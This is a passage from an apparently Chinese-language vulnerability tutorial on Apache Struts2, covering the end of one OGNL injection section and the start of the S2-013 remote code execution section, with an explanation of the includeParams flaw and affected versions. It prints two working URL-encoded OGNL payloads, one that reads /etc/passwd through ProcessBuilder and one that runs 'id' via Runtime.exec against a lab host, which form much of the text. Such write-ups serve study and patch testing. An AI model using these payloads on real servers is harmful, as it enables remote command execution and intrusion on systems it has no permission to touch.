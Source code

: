 ![image-20210709103433482](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ba57daff6526f70f0807504a134e1ef9b10d8fee.png)

##### 需要url编码，否则500

#### poc2

```php
%25%7B%23a%3D(new java.lang.ProcessBuilder(new java.lang.String%5B%5D%7B%22cat%22%2C %22%2Fetc%2Fpasswd%22%7D)).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew java.io.InputStreamReader(%23b)%2C%23d%3Dnew java.io.BufferedReader(%23c)%2C%23e%3Dnew char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```

![image-20210709103956924](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f2b49e1c0f446b0e549e5e1fbcb756652dedd74c.png)

### 4.7 S2-013远程代码执行漏洞

#### 漏洞原理

##### struts2的标签中 `&lt;s:a&gt;` 和 `&lt;s:url&gt;` 都有一个 includeParams 属性，可以设置成如下值

1. ##### *none* - URL中*不*包含任何参数（默认）
2. ##### *get* - 仅包含URL中的GET参数
3. ##### *all* - 在URL中包含GET和POST参数

##### 当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。

##### 此时`&lt;s:a&gt;` 或`&lt;s:url&gt;`尝试去解析原始请求参数时，会导致OGNL表达式的执行

#### 影响版本

```php
2.0.0 - 2.3.14
```

#### 启动漏洞

![image-20210709104435576](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-83a7bd98abdd41ad9983f0ee3422f16e17a8a9d3.png)

![image-20210709105117366](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ba96ec80641b19cbe8d477607bc87ae7f1f20476.png)

##### poc-1

```php
http://192.168.9.234:8080/l ink.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```
